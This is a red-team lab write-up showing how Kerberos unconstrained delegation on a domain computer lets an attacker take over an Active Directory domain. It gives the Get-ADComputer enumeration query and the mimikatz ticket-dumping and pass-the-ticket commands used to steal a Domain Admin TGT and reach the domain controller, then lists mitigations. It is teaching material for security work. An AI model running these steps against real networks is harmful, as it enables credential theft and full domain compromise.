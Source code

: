 ```yaml
---
layout: post
title: "domain compromise via unrestricted kerberos delegation"
date: 2024-06-18
categories: active-directory-kerberos-abuse
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /active-directory-kerberos-abuse/
---
```


# Kerberos Unconstrained Delegation

This lab explores a security impact of unrestricted kerberos delegation enabled on a domain computer.

## Overview

* Unrestricted kerberos delegation is a privilege that can be assigned to a domain computer or a user;
* Usually, this privilege is given to computers (in this lab, it is assigned to a computer IIS01) running services like IIS, MSSQL, etc.;
* Those services usually require access to some back-end database (or some other server), so it can read/modify the database on the authenticated user's behalf;
* When a user authenticates to a computer that has unresitricted kerberos delegation privilege turned on, authenticated user's TGT ticket gets saved to that computer's memory;
* The reason TGTs get cached in memory is so the computer (with delegation rights) can impersonate the authenticated user as and when required for accessing any other services on that user's behalf.

Essentially this looks like so:\
`User` --- authenticates to ---> `IIS server` ---> authenticates on behalf of the user ---> `DB server`

{% hint style="warning" %}
Any user authentication (i.e CIFS) to the computer with unconstrained delegation enabled on it, will cache that user's TGT in memory, which can later be dumped and reused by an adversary.
{% endhint %}

## Setup

Let's give one of our domain computers/our victim computer `IIS01` unrestricted kerberos delegation privilege:

![](<../../.gitbook/assets/Screenshot from 2018-10-29 22-50-27.png>)

To confirm/find computers on a domain that have unrestricted kerberos delegation property set:

```csharp
Get-ADComputer -Filter {TrustedForDelegation -eq $true -and primarygroupid -eq 515} -Properties trustedfordelegation,serviceprincipalname,description
```

We can see our victim computer `IIS01` with `TrustedForDelegation` field set to `$true` - we are good to attack:

![](<../../.gitbook/assets/Screenshot from 2018-10-29 23-08-06.png>)

## Execution

On the computer IIS01 with kerberos delegation rights, let's do a base run of mimikatz to see what we can find in memory:

```csharp
sekurlsa::tickets
```

![](<../../.gitbook/assets/Screenshot from 2018-10-29 23-35-01.png>)

Note that we do not have a TGT for `offense\administrator` (Domain Admin) just yet.

Let's now send an HTTP request to `IIS01` from a `DC01` host from the context of offense\administrator:

```csharp
Invoke-WebRequest http://iis01.offense.local -UseDefaultCredentials -UseBasicParsing
```

We see the request got a `HTTP 200 OK` response:

![](<../../.gitbook/assets/Screenshot from 2018-10-29 23-35-20.png>)

Let's check the victim host `IIS01` for new kerberos tickets in memory:

```
mimikatz # sekurlsa::tickets
```

![](<../../.gitbook/assets/Screenshot from 2018-10-29 23-40-27.png>)

We can see that the IIS01 has now got a TGT for offense\administrator - this means that we have effectively compromised the entire offense.local domain. We will get back to this in a  moment.

First, let's export all kerberos tickets from IIS01 memory, so we can load offense\administrator ticket TGT into the current session and assume its privileges:

```csharp
mimikatz::tickets /export
```

![](<../../.gitbook/assets/Screenshot from 2018-10-29 23-56-20.png>)

..but before we proceed with `pass-the-ticket` attack and become a DA, let's try PSRemoting to the `DC01` from `IIS01` and check currently available kerberos tickets in a current logon session - just to make sure we currently do not have DA rights:

![](<../../.gitbook/assets/Screenshot from 2018-10-29 23-49-58.png>)

Above screenshow shows that there are no tickets and PSSession could not be established - as expected.

Let's now proceed and import the previously dumped offense\administrator TGT into our current logon session on the `IIS01` host:

```csharp
mimikatz # kerberos::ptt C:\Users\Administrator\Desktop\mimikatz\[0;3c785]-2-0-40e10000-Administrator@krbtgt-OFFENSE.LOCAL.kirbi
```

![](<../../.gitbook/assets/Screenshot from 2018-10-29 23-50-40.png>)

Once the TGT is imported on IIS01, let's check available tickets and try connecting to the `DC01` again:

![](<../../.gitbook/assets/Screenshot from 2018-10-29 23-59-12.png>)

As you can see from the above screengrab, the `IIS01` system now contains a `krbtgt` for offense\administrator, which enables this session to access `DC01` C$ share and establish a PSSession with an interactive shell with Domain admin privileges.

### Reminder

Note that successful authentication to ANY service on the IIS01 will cache the authenticated user's TGT. Below is an example of a user `offense\delegate` accessing a share on `IIS01` - the TGT gets cached:

![](<../../.gitbook/assets/Screenshot from 2018-10-30 21-40-29.png>)

## Mitigation

Some of the available mitigations:

* Disable kerberos delegation where possible
* Be cautious of whom you give privilege **Enable computer and user accounts to be trusted for delegation** - these are users who can enable unrestricted kerberos delagation
* Enable **Account is sensitive and cannot be delegated** for high privileged accounts

## References

{% embed url="https://adsecurity.org/?p=1667" %}

{% embed url="https://blog.xpnsec.com/kerberos-attacks-part-1/" %}

{% embed url="https://blogs.technet.microsoft.com/askds/2008/03/06/kerberos-for-the-busy-admin/" %}
@spotheplanet
